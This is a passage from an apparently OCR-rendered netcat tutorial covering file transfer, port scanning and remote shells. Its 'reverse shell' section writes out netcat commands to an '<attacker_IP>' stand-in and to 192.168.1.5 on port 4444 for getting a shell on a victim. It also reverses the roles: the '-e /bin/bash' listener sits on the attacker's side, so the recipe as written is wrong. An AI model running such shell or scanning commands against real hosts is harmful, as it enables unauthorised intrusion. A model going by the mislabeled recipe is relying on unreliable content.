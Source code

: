 #### 3. **File Transfer**

**Sending a File:**

On the sender's side:

```bash
nc -w 3 <destination_host> <port> < file_to_send
```

**Example:**

```bash
nc -w 3 192.168.1.10 1234 < example.txt
```

**Receiving a File:**

On the receiver's side:

```bash
nc -l -p <port> > received_file
```

**Example:**

```bash
nc -l -p 1234 > received.txt
```

#### 4. **Port Scanning**

You can use Netcat to scan for open ports on a target:

```bash
nc -zv <hostname> <port_range>
```

**Example:**

```bash
nc -zv 192.168.1.10 1-1000
```

This scans ports `1` to `1000` on `192.168.1.10`.

#### 5. **Creating a Reverse Shell**

You can use Netcat for creating a reverse shell:

**On the attacker's machine (listener):**

```bash
nc -l -p <port> -e /bin/bash
```

**Example:**

```bash
nc -l -p 4444 -e /bin/bash
```

**On the victim's machine (connecting back):**

```bash
nc <attacker_IP> <port>
```

**Example:**

```bash
nc 192.168.1.5 4444
```

### Conclusion

Netcat is a powerful tool for network troubleshooting, file transfer, and scripting tasks. Always ensure you have permission to use these operations on any network to avoid legal issues.
